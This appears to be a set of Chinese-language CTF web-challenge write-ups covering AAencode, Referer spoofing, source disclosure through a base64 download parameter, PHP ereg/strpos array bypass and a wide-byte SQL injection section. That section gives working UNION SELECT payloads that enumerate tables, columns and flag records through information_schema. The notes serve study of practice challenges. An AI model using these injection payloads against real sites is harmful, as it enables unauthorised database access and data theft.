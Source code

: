 # AAencode
一开始，一直在控制台上运行，一直未成功，仔细看一下，显示 ωﾟﾉ 为定义，定义：var ωﾟﾉ = " " 加上编码。
# 你从哪里来

按理说修改，
```bash
Referer:http://www.google.com 
```
就行，可是一直不成功，作罢。
# Download~!
两首歌，的下载地址都是
```bash
download.php?url=歌名.mp3的base64。
```
猜测flag也是在要这样下载才能出来。不知道flag的文件名是什么。猜了很久没有成功。看别人的答案：才知道，首先下载文件名为download.php得到源码，发现有keyishere.php的文件，用两首歌下载链接的规律base64加密文件名，构造链接访问，即可得到flag。

# sql injection 3

看链接地址，就猜测到时宽字节注入。这道题有两个flag，在ctf2表中的flag是错误的，ctf4表中的flag才是正确的。
得到字段数
一开始注释符号，直接用#，失败，页面一直报错，后来用%23，才行
```bash
id = %df' union select 1,database() %23
``` 
猜解表名
```bash
id=%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() %23 
```
猜解字段名
```bash
id=%df' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x63746632 %23
```
得到记录值
```bash
id=%df' union select 1,group_concat(id,0x3a,flag) from ctf4 %23
```
# /x00
```bash
view-source:
    if (isset ($_GET['nctf'])) {
        if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
            echo '必须输入数字才行';
        else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)   
            die('Flag: '.$flag);
        else
            echo '骚年，继续努力吧啊~';
    }
```
构造
```bash
?nctf[]
```
[解法原理](http://blog.csdn.net/sbhackerwing/article/details/63032439)
# bypass again
```bash
if (isset($_GET['a']) and isset($_GET['b'])) {
```